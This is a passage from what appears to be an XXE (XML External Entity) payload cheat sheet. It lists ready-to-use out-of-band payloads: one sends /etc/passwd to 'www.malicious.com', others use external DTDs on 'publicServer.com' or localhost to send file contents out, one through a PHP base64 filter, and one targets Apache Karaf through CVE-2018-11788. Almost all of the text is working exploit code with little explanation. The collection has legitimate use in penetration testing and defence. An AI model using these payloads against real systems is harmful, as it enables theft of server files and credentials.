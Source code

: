 Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP Filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE OOB with Apache Karaf

CVE-2018-11788 affecting versions:

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```
